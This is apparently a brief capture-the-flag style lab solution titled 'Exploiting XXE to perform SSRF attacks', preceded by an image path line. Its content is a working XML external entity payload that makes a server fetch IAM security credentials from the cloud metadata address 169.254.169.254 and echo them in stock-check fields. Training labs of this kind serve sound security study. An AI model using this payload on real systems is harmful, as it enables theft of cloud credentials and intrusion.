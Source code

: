 # Lab: Exploiting XXE to perform SSRF attacks
Insert the server responses to the XML SSRF to the URL
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>
&xxe;</storeId></stockCheck>
```

